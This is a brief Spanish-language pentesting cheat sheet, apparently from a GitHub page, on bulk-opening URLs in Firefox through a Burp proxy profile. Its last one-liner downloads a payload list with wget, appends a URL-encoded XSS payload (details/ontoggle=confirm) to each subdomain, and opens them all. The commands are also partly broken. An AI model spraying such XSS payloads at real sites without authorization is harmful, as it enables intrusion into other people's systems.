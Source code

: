 #### Fuzzing con Firefox
+ Abre una nueva pestaña con el payload que le añadas a la petición.
+ Se puede añadir un perfil de firefox distinto para cada distinta prueba

`xargs -a $1 firefox --no-remote --new-tab -url "$line"`

```
#firefox $1 = file with subdomain list
firefox_multiple_tabs() {
    list="$(<$1) ending"
    firefox --no-remote --profile ~/.mozilla/firefox/ok0h3gj9.burp8080 $list 2>&1 &
}
```

+ Pasa el payload desde un host (o en local) y abre cada URL en una nueva pestana de Firefox

```wget "https://host_sirviendo_payload/payload.txt" -O /tmp/kakon && sleep 3 | sed -i "s/$/\/resource-1\?\%22\%253E\%253Cdetails\%2Fopen\%2Fontoggle\%253dconfirm\%2560puton\%2560\%253E/" /tmp/kakon && sleep 3 | xargs -a /tmp/kakon firefox --no-remote --new-tab -url "$line" 2>&1 &```
